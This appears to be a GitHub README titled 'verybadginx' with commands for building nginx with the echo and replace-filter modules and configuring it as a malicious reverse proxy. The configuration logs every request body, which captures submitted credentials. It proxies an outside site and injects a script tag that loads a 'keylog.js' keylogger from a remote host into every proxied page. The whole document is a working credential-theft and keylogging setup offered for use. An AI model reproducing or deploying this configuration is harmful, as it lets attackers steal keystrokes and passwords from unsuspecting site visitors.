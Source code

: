 # verybadginx

#### Download nginx with modules

cd /tmp;
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz';
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz;
mv echo-nginx-module-0.58 /tmp/echo-nginx-module;
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz';
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz;
git clone https://github.com/openresty/replace-filter-nginx-module;

####  Create user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del     include /etc/nginx/sites-enabled/*;

add      include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "sting_to_remplace" "sting_to_remplace<script/src='https://www.microplus.fr/secu/images/test/keylog.js'>
</script>" -o;

add		sub_filter_once on;
add		proxy_set_header Accept-Encoding "";
	

